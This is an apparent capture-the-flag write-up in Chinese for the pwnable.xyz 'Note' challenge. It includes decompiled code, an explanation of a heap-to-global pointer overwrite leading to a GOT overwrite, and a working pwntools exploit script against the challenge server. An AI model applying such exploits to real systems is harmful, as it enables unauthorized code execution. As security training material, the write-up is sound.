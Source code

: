 ```yaml
---
title: pwnable_note
date: 2019-12-05 14:56:15
tags:
- pwn
- pwnable.xyz
---
```


# pwnable.xyz  Note

### 思路：

反汇编出来的`win`部分代码：

```assembly
; function: win at 0x40093c -- 0x40094f
0x40093c:   55                           	push rbp
0x40093d:   48 89 e5                     	mov rbp, rsp
0x400940:   48 8d 3d 31 02 00 00         	lea rdi, [rip + 0x231]
0x400947:   e8 04 fe ff ff               	call 0x400750 <system>
0x40094c:   90                           	nop 
0x40094d:   5d                           	pop rbp
0x40094e:   c3                           	ret 
```

所以最后要调用到`0x40093c`地址。

接下来看反编译出的主要运行部分代码：

`main`:

```c
// Address range: 0x400a86 - 0x400ae3
int main(int argc, char ** argv) {
    // 0x400a86
    setup();
    puts("Note taking 101.");
    while (true) {
      lab_0x400a9f:
        // 0x400a9f
        print_menu();
        switch ((int32_t)v1) {
            case 1: {
                // 0x400abf
                edit_note();
                // continue -> 0x400a9f
                continue;
            }
            case 2: {
                // 0x400ac6
                edit_desc();
                goto lab_0x400a9f;
            }
            case 0: {
                return 0;
            }
            default: {
                // 0x400acd
                puts("Invalid");
                // continue -> 0x400a9f
                continue;
            }
        }
    }
    // 0x400adb
    return 0;
}
```

并没有可以操作的地方。但是将注意力引向了两个函数`edit_note();`、`edit_desc();`。

`edit_note();`：

```c
// Address range: 0x4009b6 - 0x400a38
int64_t edit_note(void) {
    // 0x4009b6
    printf("Note len? ");
    int32_t size = read_int32(); // 0x4009d4
    int64_t * mem = malloc(size); // 0x4009df
    printf("note: ");
    read(0, mem, size);
    strncpy((char *)&g3, (char *)mem, size);
    free(mem);
    return &g5;
}
```

`edit_desc();`:

```c
/ Address range: 0x400a38 - 0x400a86
int64_t edit_desc(void) {
    // 0x400a38
    if (g4 == 0) {
        // 0x400a48
        g4 = (int64_t)malloc(32);
    }
    // 0x400a59
    printf("desc: ");
    return read(0, (int64_t *)g4, 32);
}
```

通过IDA 可以看到`g3`和`g4`的位置差`0x20`,而且`edit_note();`函数里可以对`g3`进行很大空间的修改（通过`mem`）。然后通过再次选择菜单，调用`edit_desc();`对`g4`指向的位置进行修改，以达到对任意地址修改。

**这里主要的思想是通过`strncpy((char *)&g3, (char *)mem, size);`对`g3`指向的地方进行修改，来改变其后`0x20`位置的`g4`的数据，在`g4`的位置填写需要修改的地址，再调用`edit_desc();`的`read(0, (int64_t *)g4, 32);`时，即可修改`g4`存储的位置上的内容。**

还有一点，因为该程序并未开启RELRO保护，因此可以进行GOT表覆写.

![](https://i.loli.net/2019/12/05/dCfnRSPTrZB6FXh.png)

所以最后的思路有了：

首先将`read`函数的got地址通过调用函数`edit_note();`写入`g4`,

然后再调用`edit_desc();`修改`g4`指向的区域（就是`read`的got地址）内的内容为`win`的起始地址，当再次调用到`read`时，就会调用`win`，打印出`flag`。

EXC代码：

```python
from pwn import *
context.log_level = 'DEBUG'
r = remote("svc.pwnable.xyz", 30016)
 
read_got = 0x601248
win_add = 0x40093c
 
r.recvuntil("> ")
r.sendline("1")
 
r.recvuntil("len? ")
r.sendline(str(32+20))
 
r.recvuntil("note: ")
r.sendline("A"*32 + p64(read_got))
 
r.recvuntil("> ")
r.sendline("2")
 
r.recvuntil("desc: ")
r.sendline(p64(win_add))
 
r.recvuntil("> ")
r.sendline("2")
 
print r.recvall()
```

	### 总结：

由于自己前天才开始学习，缺乏pwn相关知识，大范围触及知识盲区，不晓得GOT（Global offset Table ）攻击。

### 参考：

[GOT覆盖和Linux地址随机化](https://syf.ac.cn/2017/08/19/17.08.19/)

[pwnable.xyznote ( write - up) ](https://sunrinjuntae.tistory.com/51)

